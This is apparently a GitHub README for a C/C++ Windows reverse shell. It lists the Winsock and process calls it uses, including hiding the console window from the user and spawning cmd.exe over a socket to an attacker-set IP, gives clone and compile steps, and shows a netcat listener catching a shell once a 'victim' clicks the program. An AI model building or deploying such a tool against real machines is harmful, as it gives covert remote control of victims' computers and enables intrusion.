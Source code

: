 ## About this simple low level reverse shell
### introduction
the main thing in exploit developement, malware analyse or any other topic when you are writing an exploit is how to deal with remote servers or machines and receive/ send data, so that you have to be familiar with the SOCKETs.

socket is a software structure within a network node of a computer network that serves as an endpoint for sending and receiving data across the network

recognize that we talk about the low level language like c/c++. so first of all you have to install all prerequired stuff, an IDE, a compiler and a debugger which you can find them [here](https://code.visualstudio.com/docs/languages/cpp#_install-a-compiler)

### The functions I've used
1. [ShowWindow](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjh_t6mjP35AhXFglwKHcEcBgwQFnoECAQQAw&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fwinuser%2Fnf-winuser-showwindow&usg=AOvVaw0m88U6DTLNGTpAJUXh7Wlp)
```c
ShowWindow( GetConsoleWindow(), SW_HIDE ); // hide the console of the current process from the user interface and run it in the background
```
2. [WSAStartup](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwihhcTUjP35AhXeQ0EAHTIQAhUQFnoECAYQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fwinsock%2Fnf-winsock-wsastartup&usg=AOvVaw2dl7R4ZunjRdgaij7U1u_-)
```c
WSAStartup(MAKEWORD(2, 2), &wsa); // initialize winsock
```
3. [WSASocket](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjrgOvhjP35AhV-QUEAHQy7C2cQFnoECAYQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fwinsock2%2Fnf-winsock2-wsasocketa&usg=AOvVaw1w00qrcKKbcugzayOhuo_o)
```c
shell = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int) NULL, (unsigned int) NULL);
```
4. [WSAConnect](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwiJhcfzjP35AhWOS0EAHQbQDc4QFnoECAIQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fwinsock2%2Fnf-winsock2-wsaconnect&usg=AOvVaw11903FO_fI_g-PltsdS2hX)
```c
connection = WSAConnect(shell, (SOCKADDR*)&shell_addr, sizeof(shell_addr), NULL, NULL, NULL, NULL);
```
5. [CreateProcess](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjn15SAjf35AhWSmFwKHY2SDdwQFnoECAMQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fprocessthreadsapi%2Fnf-processthreadsapi-createprocessa&usg=AOvVaw3muVjZWA6DzAcUd32dbaSO)
```c
CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi); // create proccess that spawn command prompt (shell)
```
6. [WaitForSingleObject](https://www.google.com/url?sa=t&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwiKie6Tjf35AhXlQkEAHSMXDFwQFnoECAgQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fsynchapi%2Fnf-synchapi-waitforsingleobject&usg=AOvVaw1QxSMBrJFbVO2ai8p37N79)
```c
WaitForSingleObject(pi.hProcess, INFINITE); \\ wait the process until it ends and close the soxket
```
7. [CloseHandle](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwib3Pahjf35AhWbi1wKHRA2AqMQFnoECAkQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fhandleapi%2Fnf-handleapi-closehandle&usg=AOvVaw0WzqOSJjwQS5kHDz5cTv71)
```c
CloseHandle(pi.hProcess);
```

### edit attacker ip address
```
 char ip_addr[] = "127.0.0.1" // put your ip;
```

### compile the reverse shell
```
git clone https://github.com/hamza07-w/c-reverse-shell.git
cd c-reverse-shell
g++.exe -g rev-shell.cpp -o rev-shell.exe -lws2_32
```

the flag ```-lws2_32``` reffers to ```Ws2_32.lib``` winsocket ```dll```

### reverse shell handler
the best choice of all time it's our beautifull tool ```netcat ```
so you just write 
```
nc -nlvp 9999
```
and press enter, by the click of the victim on the reverse shell application you will get the shell
```
C:\Users\m3z0diac\Desktop\host\c-reverse-shell>whoami
desktop-arfg\m3z0diac

C:\Users\m3z0diac\Desktop\host\c-reverse-shell>
```